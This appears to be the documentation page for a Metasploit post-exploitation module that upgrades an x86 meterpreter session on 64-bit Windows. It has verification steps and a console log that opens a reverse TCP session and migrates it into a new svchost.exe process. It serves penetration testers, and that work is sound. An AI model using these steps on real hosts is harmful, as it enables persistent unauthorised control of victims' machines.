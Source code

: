 ## Creating A Testing Environment
  To use this module you need an x86 executable type meterpreter on a x64 windows machine.

This module has been tested against:

  1. Windows 10.
  2. Windows 7.
  3. Windows Server 2008R2

This module was not tested against, but may work against:

  1. Other versions of Windows that are x64.

## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session with an executable meterpreter via whatever method
  3. Do: 'use post/windows/manage/archmigrate'
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Windows 10 x64

    msf exploit(handler) > run

    [*] Started reverse TCP handler on <MSF_IP>:4567 
    [*] Starting the payload handler...
    [*] Sending stage (957487 bytes) to <Win10x64_IP>
    [*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <Win10x64_IP>:50917) at 2017-03-22 11:43:42 -0500

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > background
    [*] Backgrounding session 1...                
    msf exploit(handler) > use post/windows/manage/archmigrate 
    msf post(archmigrate) > set session 1
    session => 1
    msf post(archmigrate) > run

    [*] The meterpreter is not the same architecture as the OS! Upgrading!
    [*] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] Got pid 1772
    [*] Migrating..
    [+] Success!
    [*] Post module execution completed
    msf post(archmigrate) > sessions -l

    Active sessions
    ===============

      Id  Type                     Information                               Connection
      --  ----                     -----------                               ----------
      1   meterpreter x64/windows  DESKTOP-SO4MCA3\tmoose @ DESKTOP-SO4MCA3  <MSF_IP>:4567 -> <Win10x64_IP>:50917 (<Win10x64_IP>)

    msf post(archmigrate) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows